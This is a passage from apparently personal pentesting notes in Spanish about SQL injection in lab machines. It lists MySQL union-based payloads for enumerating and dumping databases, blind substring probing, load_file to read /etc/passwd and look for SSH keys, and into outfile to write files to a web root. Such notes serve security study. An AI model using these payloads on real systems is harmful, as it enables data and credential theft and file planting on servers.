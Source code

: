 Si funciona empezaré a jugar con **substring()** para ir letra por letra hasta averiguar las bases, tablas, columnas y finalmente dumpear toda la data.  
Normalmente ,y como mejor, usar un script en python para ello. Ejemplo de script en python de este tipo de ataque en máquina **IMF**. Ejemplo del uso del substring;  
`select substring(schema_name,1,1) from information_schema.schemata limit 0,1=’LETRA` 

Esto; `select count(schema_name) from information_schema.schemata)=’NUMERO`   
Irá bien para luego en el script poner hasta que número de base da datos sacar.

Si no funciona nada de esto tiro ya de sqlmap -el tipo out-of-band no lo pruebo, para mas info de este ataque; https://www.youtube.com/watch?v=C-FiImhUviM&t=10178s -al final del video-. Y si tampoco saco nada entiendo que no es vulnerable, al menos para mí, y pruebo otras vías de ataque que no sean SQLi.

**¡¡Es vulnerable y puedo ver la salida de mis peticiones!!**. Empiezo entonces a **dumpear la data**:

`admin’ union select 1,@@version,3-- -` Lo primero es saber la base de datos que hay detrás. Aunque sea mysql puede valer con `version()` en vez del @@version.


Pero hay mas sistemas de bases de datos:

![SQLi-1]({{ 'assets/img/apuntes/hackingweb/sqli-1.png' | relative_url }}){: .center-image }

Ya sabiendo a que te enfrentas solo queda recoger toda la información que puedas. Voy a dejar la estructura de peticiones para MySQL porque es la más habitual(suponiendo que tenga una columna):
   
`union select database()-- -`

`union select schema_name from information_schema.schemata-- -`

`union select table_name from information_schema.tables where table_schema=”<nameDB>”-- -`

`union select column_name from information_schema.columns where table_schema=”<nameDB>” and table_name=”<nameTable>”-- -`

`union select group_concat(DATO1,0x3a,DATO2) from nameDB.nameTable-- -`

Si en la petición de la base de datos te sale solo una es que igual solo muestra de una en una, entonces podrías probar ya con `group_concat(schema_name) from ..` , o también con el `limit`.

Otras formas de sacar info:

`union select group_concat(table_name,”:”,column_name) from information.schema.columns where table_schema=”<BaseDeseada>”-- -`  
Te saldrían sus tablas con sus columnas pertinentes.

**Load_file e into outfile**:

Load_file: Para leer archivos. Ejemplos:

`‘union select 1,2,load_file(“/etc/passwd”)-- -`

Si lo lee buscamos id_rsa de los usuarios u otros archivos relevantes vistos en el apartado LFI.

Into outfile: Para crear y guardar archivo en la máquina víctima, ejemplos:

`‘union select 1,”probando”,3 into outfile “C:\\\inetpub\\wwwroot\\prueba.txt”-- -`  
Para un servidor Windows escapamos las barras por si diera problemas, y si no las quitas, hay que probar.
